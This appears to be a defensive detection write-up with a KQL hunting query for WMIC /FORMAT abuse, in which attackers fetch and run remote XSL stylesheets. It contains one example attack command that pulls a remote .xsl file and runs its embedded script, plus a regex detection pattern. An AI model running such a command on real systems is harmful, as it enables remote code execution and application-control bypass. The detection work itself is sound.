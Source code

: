# WMIC Unusual module loads
This analytic will look for Potential WMIC Abuse. Windows Management Instrumentation Command retrieves a huge range of information about local or remote computers. It makes configuration changes to multiple remote machines. The WMIC is a deprecated tool as of 2021. While it is unlikely to stop working for a few years, no new features will be added and it may eventually be removed. WMIC is a Feature on Demand (FoD) that's preinstalled by default in Windows 11. 

For decoding a command see: https://gchq.github.io/CyberChef/
For better understanding of the WMIC command see: https://ss64.com/nt/wmic.html

### Things of Note: 
    - /NODE: which is used to connect to remote devices. this can show up in any of the scenarios. 
    - /FORMAT: Executes JScript or VBScript embedded in the target remote XSL stylesheet.

### WMIC loading unusual modules:
This is specifically looking for WMIC to reach out to the internet to download something using the "/FORMAT" parameter. This parameter is meant to format data in to specific formats. However threat actors realized that is can be used to download malicious content from the internet and by pass some detections.  

XSL Script Processing, which can be used to bypass application control and—courtesy of WMIC’s /format option—download code from a remote location. it will download and execute the contents of the XSL file. Executes JScript or VBScript embedded in the target remote XSL stylesheet.

wmic.exe process get brief /format:"\\8.8.8.8\c$\Tools\pocremote.xsl"

This WMIC Process is performing network call to 8.8.8.8 to download an xsl file and then running JScript or VBScript embedded in the file. Note: Payload written on disk: IE local cache

### Look For: 
1. can ignore internal IP addresses and loopback IP (127.0.0.1)
2. if possible check the downloaded file on OSINT tools 
    - if we can submit the link or the file hash to OSINT tools that should give use an idea of how malicious/suspicious

# KQL:
```kql
//Unusual module loads
// looks for http, https, ftp, or ip address connection to install a file
let SusModule = @'(?i)(.*)wmic(.*)(\/format:)(.*)(((http|https|ftp):\/\/)|((\d{1,3}\.){3}\d{1,3}))(.+)'
;
let SEvent = SecurityEvent
| where CommandLine matches regex SusModule 
;
let DEvent = DeviceEvents
| where InitiatingProcessCommandLine matches regex SusModule or ProcessCommandLine matches regex SusModule
;
let DPEvent = DeviceProcessEvents
| where InitiatingProcessCommandLine matches regex SusModule or ProcessCommandLine matches regex SusModule
;
let DFEvent = DeviceFileEvents
| where InitiatingProcessCommandLine matches regex SusModule
;
let DREvent = DeviceRegistryEvents
| where InitiatingProcessCommandLine matches regex SusModule 
;
let SLog = Syslog
| where SyslogMessage matches regex SusModule 
; 
SEvent
| join kind=fullouter (SLog) on TimeGenerated
| join kind=fullouter (DPEvent) on TimeGenerated
| join kind=fullouter (DFEvent) on TimeGenerated
| join kind=fullouter (DREvent) on TimeGenerated
| join kind=fullouter (DEvent) on TimeGenerated
| extend InitiatingProcessCommandLine = coalesce(InitiatingProcessCommandLine, InitiatingProcessCommandLine1, InitiatingProcessCommandLine2, InitiatingProcessCommandLine3)
| extend ProcessCommandLine = coalesce(ProcessCommandLine, ProcessCommandLine1, SyslogMessage)
| extend TimeGenerated = coalesce(TimeGenerated, TimeGenerated1, TimeGenerated2, TimeGenerated3, TimeGenerated4, TimeGenerated5)
| extend DeviceName = coalesce(DeviceName, DeviceName1, DeviceName2, DeviceName3, Computer, Computer1)
| extend AccountName = coalesce(AccountName, AccountName1, AccountName2)
| extend InitiatingProcessAccountName = coalesce(InitiatingProcessAccountName, InitiatingProcessAccountName1, InitiatingProcessAccountName2, InitiatingProcessAccountName3)
| extend InitiatingProcessAccountUpn = coalesce(InitiatingProcessAccountUpn, InitiatingProcessAccountUpn1, InitiatingProcessAccountUpn2, InitiatingProcessAccountUpn3)
```
